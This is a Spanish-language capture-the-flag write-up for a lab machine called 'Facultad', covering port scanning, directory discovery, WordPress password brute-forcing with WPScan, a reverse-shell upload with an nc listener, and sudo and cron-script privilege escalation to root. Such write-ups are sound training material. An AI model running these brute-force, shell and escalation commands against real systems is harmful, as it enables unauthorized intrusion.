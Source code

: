 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 30/1/2025 🖥️The
  Hacker Labs
hidden: true
---
```


# Facultad

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.61
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (1034).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.61
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.61
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (1036).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea como el Studium de una asignatura en este caso se llama Administración de Sistemas.

<figure><img src="../.gitbook/assets/image (1037).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.61/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (1038).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/images`.

<figure><img src="../.gitbook/assets/image (1039).png" alt=""><figcaption></figcaption></figure>

Nos la descargamos para realizar la técnica de esteganografía.

<figure><img src="../.gitbook/assets/image (1040).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido del archivo. Descubrimos dos posibles usuarios.

<figure><img src="../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/education`.&#x20;

<figure><img src="../.gitbook/assets/image (1042).png" alt=""><figcaption></figcaption></figure>

Como podemos comprobar es un WordPress por lo que añadimos el dominio **facultad.thl** a **/etc/hosts**.

<figure><img src="../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al tener el directorio wp-admin sabemos que es un panel de login pero no tenemos las credenciales por lo que con **WPScan** enumeramos el usuario.

```bash
wpscan --url http://192.168.1.61/education/ --enumerate u,vp
```

<figure><img src="../.gitbook/assets/image (1044).png" alt=""><figcaption></figcaption></figure>

Sabiendo el usuario tenemos que conseguir la contraseña.

```bash
wpscan --url http://192.168.1.61/education/ --passwords /usr/share/wordlists/rockyou.txt --usernames facultad
```

<figure><img src="../.gitbook/assets/image (1045).png" alt=""><figcaption></figcaption></figure>

Ingresamos las credenciales en el panel de **login**.

<figure><img src="../.gitbook/assets/image (1046).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un apartado para subir archivos por lo que adjuntamos una [ReverseShell](https://www.revshells.com/).

<figure><img src="../.gitbook/assets/image (1047).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../.gitbook/assets/image (1048).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (1049).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/php/" %}

```bash
sudo -u gabri php -r "system('/bin/bash');"
```

Como comprobamos en el mensaje la contraseña de Vivian está en el mail de Gabri.

<figure><img src="../.gitbook/assets/image (1050).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido que es la contraseña codificada en **Brainfuck** por lo que la decodificamos.

<figure><img src="../.gitbook/assets/image (1051).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1052).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

<figure><img src="../.gitbook/assets/image (1053).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos de **root** para ejecutar un script.

<figure><img src="../.gitbook/assets/image (1054).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido y así podemos modificarlo para escalar privilegios. Nos damos cuenta que el script se ejecuta cada minuto en el **/etc/crontab**.

<figure><img src="../.gitbook/assets/image (1055).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash
bash
```

Ejecutamos.

```
sudo /opt/vivian/script.sh
```

<figure><img src="../.gitbook/assets/image (1056).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
